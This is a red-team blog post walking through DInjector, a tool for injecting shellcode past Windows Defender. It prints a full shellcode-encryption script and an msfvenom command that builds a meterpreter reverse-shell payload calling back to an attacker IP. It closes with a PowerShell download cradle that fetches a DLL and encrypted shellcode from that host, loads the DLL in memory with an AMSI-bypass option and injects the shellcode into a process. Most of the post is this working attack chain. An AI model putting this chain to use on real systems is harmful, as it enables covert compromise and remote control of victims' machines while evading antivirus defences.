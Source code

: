 ```yaml
---
layout: single
title: "Trying out DInjector as a AV/EDR bypassing tool, fully ported to DInvoke APIs"
date: 2021-10-26
tags:  
  - windows
  - avbypass
  - dinvoke
  - windows-defender
author_profile: true
---
```


Hello back fellow red teamers. I decided to come make a blog post after a little of long period in which I lost all of my other blog posts.

Lately I have been focused on Windows stuff, such as excercises on trying to bypass Windows Defender through trial and errors etc as a practice to help me make some preparations for a possible OSEP attempt lol.

I came across some amazing repos which I though would be worth to explain on a blog.

First let's take a view :

- [https://github.com/TheWover/DInvoke](https://github.com/TheWover/DInvoke)
 
DInvoke is dynamic replacement for PInvoke and contains powerful primitives that can be combined to dynamically invoke unmanaged code from disk or from memory.

You can have this reference for a deeper explaination on what DInvoke does and what it really is : [https://thewover.github.io/Dynamic-Invoke/](https://thewover.github.io/Dynamic-Invoke/)

While desperatly googling about examples of DInvoke being used on an actual Proof of Concept for silent Code Execution I ended up finding this amazing tool which is fully ported on DInvoke APIs : [https://github.com/snovvcrash/DInjector](https://github.com/snovvcrash/DInjector)

```
(    (
     )\ ) )\ )                   )             (   (  (
    (()/((()/(     (    (     ( /(    (        )\ ))\ )\
     /(_))/(_))(   )\  ))\ (  )\())(  )(      (()/((_|(_)
    (_))_(_))  )\ |(_)/((_))\(_))/ )\(()\      ((_))  _
     |   \_ _|_(_/( !(_)) ((_) |_ ((_)((_)     _| | || |
     | |) | || ' \)) / -_) _||  _/ _ \ '_|  _/ _` | || |
     |___/___|_||_|/ \___\__| \__\___/_|   (_)__,_|_||_|
                 |__/-----------------------------------
                                                K E E P
                                                C A L M
                                                  A N D
                                       D / I N 💉 E C T
                                      S H E L L C O D E
```

The repo consists of a shellcode encrypter which makes use of `xor` or `aes` algorithms and encrypts the file with a password using sha256 and the DLL project which we will be loading into the memory to execute code.

- encrypter.py

```python
#!/usr/bin/env python3

import os
import hashlib
from base64 import b64encode
from argparse import ArgumentParser

from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.primitives import padding
from cryptography.hazmat.backends import default_backend


class AES:

	def __init__(self, password, iv): 
		self.key = hashlib.sha256(password.encode()).digest()
		self.iv = iv

	def encrypt(self, raw):
		backend = default_backend()
		padder = padding.PKCS7(128).padder()
		raw = padder.update(raw) + padder.finalize()
		cipher = Cipher(algorithms.AES(self.key), modes.CBC(self.iv), backend=backend)
		encryptor = cipher.encryptor()
		return self.iv + encryptor.update(raw) + encryptor.finalize()


def parse_args():
	parser = ArgumentParser()
	parser.add_argument('shellcode_bin', action='store', type=str)
	parser.add_argument('-p', '--password', action='store', type=str, required=True)
	parser.add_argument('-a', '--algorithm', action='store', type=str, default='aes', choices=['aes', 'xor'])
	parser.add_argument('-o', '--output', action='store', type=str)
	parser.add_argument('--base64', action='store_true', default=False)
	return parser.parse_args()


if __name__ == '__main__':
	args = parse_args()

	with open(args.shellcode_bin, 'rb') as fd:
		shellcode = fd.read()

	if args.algorithm == 'aes':
		iv = os.urandom(16)
		ctx = AES(args.password, iv)
		enc = ctx.encrypt(shellcode)
	elif args.algorithm == 'xor':
		enc = bytearray(b ^ ord(args.password) for b in shellcode)

	if args.base64:
		print(b64encode(enc).decode())
	else:
		with open(args.output, 'wb') as fd:
			fd.write(enc)
		print(f'[+] Encrypted shellcode file: {args.output}')
```

I could use Visual Studio to compile the DLL project but doing everything in linux just fits in perfectly. I wasnt aware there was a developer tool such as ``monodeveloper`` which could handle `C#` and `.NET` compiling on linux.

![img1](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/main/assets/images/post2/DInjector1.png)

The walkthrough after compiling the DLL is pretty much straightforwards, I am going to create a meterpreter shellcode and have the output as raw : 

```bash
pi0x73@kali:~$ msfvenom -p windows/x64/meterpreter/reverse_winhttps LHOST=192.168.88.142 LPORT=443 EXITFUNC=thread -f raw -o shellcode.bin
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 906 bytes
Saved as: shellcode.bin
```

Setting up a listener which will serve the DLL to be loaded and the shellcode : 

![img2](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/main/assets/images/post2/img2.png)

Before executing let's make sure Windows Defender is up to date.

![img3](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/main/assets/images/post2/img3.png)

To load the DLL into the memory and call the shellcode you might want to run cradle.ps1 if you dont want to do it manually...

```powershell
# MODULE
$M = "currentthread"

# LHOST
$H = "192.168.88.142"

# AMSI
$A = "true"

# DLL
$D = "DInjector.dll"

# SHELLCODE
$S = "enc"

# PASSWORD
$P = "hahaWOW!!encrypt"

# PROCESS
$N = "notepad"

# IMAGE
$I = "C:\Windows\System32\svchost.exe"

# --------------------------------------------------------------------

$methods = @("remotethread", "remotethreadsuspended")
if ($methods.Contains($M)) {
    $N = (Start-Process -WindowStyle Hidden -PassThru $N).Id
}

$cmd = "$M /am51:$A /sc:http://$H/$S /password:$P /pid:$N /image:$I"

$data = (IWR -UseBasicParsing "http://$H/$D").Content
$assem = [System.Reflection.Assembly]::Load($data)

$flags = [Reflection.BindingFlags] "NonPublic,Static"

$class = $assem.GetType("DInjector.Detonator", $flags)
$entry = $class.GetMethod("Boom", $flags)

$entry.Invoke($null, (, $cmd.Split(" ")))
```
